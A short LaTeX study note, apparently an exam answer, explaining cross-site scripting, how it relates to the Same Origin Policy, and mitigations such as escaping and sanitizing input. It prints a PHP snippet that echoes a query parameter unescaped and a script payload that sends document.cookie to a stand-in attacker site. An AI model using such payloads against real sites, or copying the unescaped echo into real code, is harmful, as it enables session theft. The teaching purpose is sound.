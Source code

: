 \documentclass[9pt, letterpaper]{article}
\begin{document}
\subsection{What is an XSS attack? How it's related to the Same Origin Policy? Give an high level description of how to mount it and the main mitigation measures.}
\begin{itemize}
	\item An XSS attack is a \textbf{Cross Site Scripting Attack}.
	\item Suppose we have {\tt site.com/search.php?q=}
	\begin{itemize}
		\item This website, whatever I type in to search, is going to write:
\begin{lstlisting}[language=PHP, numbers=none]
	<?php
    	echo "Here your result for" + $_GET['q'];
	?>
\end{lstlisting}
		\item Here I can type:
\begin{lstlisting}[language=PHP, numbers=none, xrightmargin=0.08\textwidth]
	<script>
		window.open("http://mymalicioussite.com/?cookie=" + document.cookie)
	</script>
\end{lstlisting}
		\item If it works, I'll \textbf{send my authentication Cookie to another website}.
		\item I can give this link :
\begin{lstlisting}[language=PHP, numbers=none, xrightmargin=0.08\textwidth]
	site.com/search.php?q = 
		<script>
			window.open("http://mymalicioussite.com/?cookie=" + document.cookie)
		</script>
\end{lstlisting}
	to someone and \textbf{steal his/her Cookies}! 
	\end{itemize}
	\item This can be \textbf{mitigated by}:
	\begin{itemize}
		\item \textbf{replacing} {\tt $<$} with {\tt \&lt};
		\item \textbf{sanitizing and removing all tags} (or only the dangerous one) \textbf{from} the \textbf{input}.
	\end{itemize}		
	\item This attack eludes the \textbf{Same Origin Policy} because it's a {\tt <script>} \textbf{executed in the same page} so it has the \textbf{same origin} and it's the page itself sending data outside.
\end{itemize}
\end{document}

